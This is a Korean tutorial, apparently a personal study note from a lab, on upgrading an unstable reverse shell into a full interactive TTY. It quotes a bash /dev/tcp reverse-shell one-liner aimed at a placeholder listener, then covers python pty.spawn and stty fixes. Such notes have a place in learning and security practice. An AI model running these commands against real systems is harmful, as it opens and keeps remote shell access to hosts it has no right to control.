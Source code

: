 # Reverse Shell 안정화

이전 01. 파일에서 배웠던 코드로 얻은 쉘은 깨지기 매우 쉽다.
또한 지원하지 않는 기능도 많아서 불편한 점이 한두가지가 아니다.

컨트롤C 를 누르면 연결이 바로 끊어지고, 방향키, 탭, nano, vi 등 지원하지 않는 기능이 너무나 많다.  
그 이유는 이전에 파일의 코드에서도 찾아볼 수 있는데   

**이전 코드**  

```bash
bash -c 'bash -i >& /dev/tcp/[VM 외부 Local Host IP 주소]/[Listen 중인 포트] 0>&1'
```
이건 Bash가 `stdout`과 `stderr`를 `/dev/tcp/host/port`로 리디렉션하는 구조로,  
단순한 입출력 스트림만을 통해서만 명령을 주고 받기 때문이다.  

쉽게 말해서 네트워크 소켓을 통해 연결만 제공된 상태이기 때문이다.   

그말은 곧 터미널(TTY)이 할당되어있지 않은 상태로 볼 수 있기에 이를 해결해줘야한다.  

<br>

### tty 할당 확인 방법  
1. `tty` 명령어 입력
  -  간단하게 그냥 `tty` 명령어를 쳐보면 된다.
  - tty가 할당되어 있지 않다면 tty가 아니라는 문구가 나올 것이다.
  - 만약 할당되어 있다면 `/dev/` 아래에 연결된 특정 TTY나 PTY 경로가 나와있을 것이다.

<img src="https://github.com/user-attachments/assets/d963c1af-d276-464e-bd4f-95b4c9636cb0" width=300>  
<img src="https://github.com/user-attachments/assets/4efbf481-06a9-4376-aeed-47d8fbc3228f" width=300>   

<br>
<br>
<br>

2. `python` 명령어 입력
  - 이후 자동화나 스크립트에서 유용하게 쓰일 수 있는 방법이다.
  - `sys.stdin`은 표준입력을 의미하고 `.isatty()`는 터미널 장치인지 묻는 내장함수이다.
  - 연결되어 있다면 True를, 아니라면 False를 반환할 것이다.  

```python
python3 -c 'import sys; print(sys.stdin.isatty())'
```

<img src="https://github.com/user-attachments/assets/40bb4050-bae8-4590-ab15-ccae4b739c9c" width=600>  
<img src="https://github.com/user-attachments/assets/c72cc16e-2f75-4395-8ee2-d1b21a2efa46" width=600>  


<br>
<br>

### TTY 할당  
이제 TTY가 할당되어있지 않은 상태라는 것을 알았으므로 할당을 해줘야한다.  
명령어는 간단하게 아래 명령어를 치면 된다.  

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

이 명령어는 내부적으로 pseudo-terminal을 생성해서 새로운 bash 셸을 띄우는 것이다.  

참고로 pseudo-terminal(PTY)는 말 그대로 가짜 터미널이다.  
운영체제가 만들어주는 가짜 터미널 장치이며 터미널처럼 입출력 할 수 있게 해주는 인터페이스이다.   

참고로 아직 방향키, 컨트롤키 등 대부분 안되는 상황일거다.  
<br>

### TTY 설정 보정  
이제 추가로 몇가지 단계를 해주면 된다.  
- `export TERM=xterm`로 터미널 종류 설정 (vi 나 nano 같은 것들 화면 깨짐방지)
- `ctrl Z`로 일시정지
- 'stty raw -echo; fg' 터미널 입력방식 수정 후 리버스 셸 복귀
- `stty rows 38 columns 116` 화면 깨짐 방지 (화면 레이아웃 보정)

```bash
export TERM=xterm
ctrl Z
stty raw -echo; fg
stty rows 38 columns 116
```

이렇게 단계를 거치면 제대로 된 쉘 환경을 가져올 수 있다.   
컨트롤 C 포함 방향키 탭키 vim, nano 등 전부 화면 깨짐없이 잘 작동한다.  

<br>

물론 자동화가 가능한 pwncat-cs 같은 도구가 있지만  
우선 천천히 감을 잡은 뒤에 사용해보겠다.  
